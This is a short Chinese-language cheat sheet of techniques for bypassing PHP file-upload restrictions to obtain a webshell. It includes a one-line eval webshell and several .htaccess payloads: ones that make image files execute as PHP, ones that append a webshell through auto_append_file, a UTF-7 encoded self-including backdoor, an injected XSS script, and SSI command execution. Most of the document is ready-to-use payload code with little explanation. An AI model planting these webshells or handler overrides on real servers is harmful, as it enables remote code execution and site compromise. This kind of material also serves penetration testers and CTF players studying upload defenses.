

# php上传getshell绕过总结

### 1.前端验证的绕过：

禁用js或者用burp抓包改包

### 2.MIME-TYPE绕过：

burp修改content-type

### 3.黑名单后缀绕过：

可以考虑大小写绕过，php2 php3 php4类推以及phtml等

双写绕过

**反斜线拆分绕过：**



### 4.文件内容的绕过：

\<?php标签的替代
短标签: \<? \<?= \<script language=‘php’>

```sql
一句话木马：<?php eval($_POST['a']); ?>

```

### 5..htaccess的利用（apache）

所需前提配置略

文件内容示例：

```sql
1.
<FilesMatch "03.jpg"> 
SetHandler application/x-httpd-php
</FilesMatch>
2.
AddHandler php5-script .jpg
<!-- 将.jpg文件按照php代码进行解析执行 -->
3.
AddType application/x-httpd-php .jpg
<!-- 将.jpg文件按照php代码进行解析执行 -->
4.
Sethandler application/x-httpd-php
<!-- 将该目录及子目录下的文件均按照php文件解析执行 -->

```

文件包含：

```sql
php_value auto_append_file /tmp/webshell.txt
php_value auto_append_file /tmp/sess_xxxxxx
```

Xss后门：

```sql
php_value highlight.comment '"><script>alert(1);</script>'

```

自包含：

```sql
1.
php_value auto_append_file .htaccess
#<?php eval($_POST[0]);?>
2.
不使用<? | script 时候：
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7”
php_value auto_append_file .htaccess
#+ADw-script+AD4-alert(1)+ADsAPA-/script+AD4
#+ADw?php phpinfo()+Ads

```

配合shtml（SSI）：

```sql
.htaccess： 
AddType text/html .shtml
AddHandler server-parsed .shtml
Options Includes

 1.shtml： 
<pre>
<!--#exec cmd="whoami" -->
</pre>
```

反序列化时：

```sql
php_value unserialize_callback_func "phpinfo"
```

关闭php引擎使其可以直接下载：

```sql
php_flag engine 0
```

.htaccess盲注：

有空找找，wupco佬的东西
